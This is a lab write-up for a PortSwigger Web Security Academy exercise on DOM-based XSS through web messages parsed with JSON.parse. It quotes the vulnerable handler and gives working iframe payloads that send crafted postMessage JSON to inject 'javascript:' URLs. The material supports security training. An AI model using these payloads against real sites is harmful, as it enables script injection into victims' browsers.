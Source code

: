 
# DOM XSS using web messages and JSON.parse

This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/controlling-the-web-message-source



![img](images/DOM%20XSS%20using%20web%20messages%20and%20JSON.parse/1.png)

---------------------------------------------

The vulnerable code is the following:

```
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20JSON.parse/2.png)


It expects a JSON object in e.data. If the “type” field in the JSON is “load-channel”, it will set the “src” of the ACMEplayer to the value of the field “url” of the JSON.

First I will try this with the code:

```
<iframe src="https://0ade0059044fd24c81bb9a8f008100a0.web-security-academy.net/" onload="this.contentWindow.postMessage('{\"type\":\"load-channel\",\"url\":"javascript:alert(1)"}','*')" style="width:100%;height:100%">
```

I had to change to this code. The difference is the order from double-quote>single-quote>escaped-double-quote to single-quote>double-quote>escaped-double-quote:

```
<iframe src="https://0ade0059044fd24c81bb9a8f008100a0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(1)\"}","*")' style="width:100%;height:100%">
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20JSON.parse/3.png)


And finally change it to print the page instead:

```
<iframe src="https://0ade0059044fd24c81bb9a8f008100a0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")' style="width:100%;height:100%">
```
